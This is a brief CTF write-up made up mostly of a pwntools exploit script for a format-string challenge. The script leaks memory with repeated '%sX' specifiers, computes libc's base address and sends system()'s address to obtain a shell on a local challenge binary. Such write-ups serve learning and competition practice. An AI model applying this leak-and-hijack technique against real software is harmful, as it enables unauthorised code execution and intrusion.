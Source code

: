 # Format

I can't recall the exact name of this challenge since I upload it here after the CTF, but it was an interesting one, where you needed to leak using the "sX" specifier, (I did brute force a bunch :D) After that you needed the system address to get a shell. nice one!

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./chal')
context.terminal = ['tmux', 'splitw', '-hp', '70']

libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./chal', gdbscript=gs)
    if args.REMOTE:
        return remote('127.0.0.1', 5555)
    else:
        return process( './chal')
r = start()
#========= exploit here ===================
#specifiers = [
#    "d", "i", "u", "o", "x", "X", "c", "s", "%", 
#    "ld", "li", "lu", "lo", "lx", "lX", 
#    "zd", "zi", "zu", "zo", "zx", "zX", 
#    "jd", "ji", "ju", "jo", "jx", "jX", 
#    "td", "ti", "tu", "to", "tx", "tX"
#]
#0x7fffffffc918 - 0x7fffffffbf30
for i in range(0xe90+7+8):
    formatted_specifier = f"%sX"
    r.sendline(b"1")
    log.info(f"try # {hex(i)}")
    r.sendline(formatted_specifier.encode("ascii"))
    r.recvuntil(b"Here: ")
    leak = r.recvuntil(b"1.").split(b"1.")[0]
    log.info(leak)

r.sendline(b"1")
log.info(f"leaking")
r.sendline(formatted_specifier.encode("ascii"))
r.recvuntil(b"XXXXXXXXX\x0e")
leak = u64(r.recvline().strip().split(b"X1.")[0][-6:].ljust(8,b"\x00"))

#leak = u64(r.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.info(f"leak = {hex(leak)}")
libc.address = leak - 0x5840
log.info(f"libc = {hex(libc.address)}")
#0x7f2be6adfda5 - 0x7f2be6800000 =  0x2dfda5
log.info(f"system = {hex(libc.sym.system)}")
#win
sleep(1)
r.sendlineafter(b'call', b'2')
log.info("Enter system address to get a shell")
sleep(1)

r.sendline(hex(libc.sym.system))

#========= interactive ====================
r.interactive()
```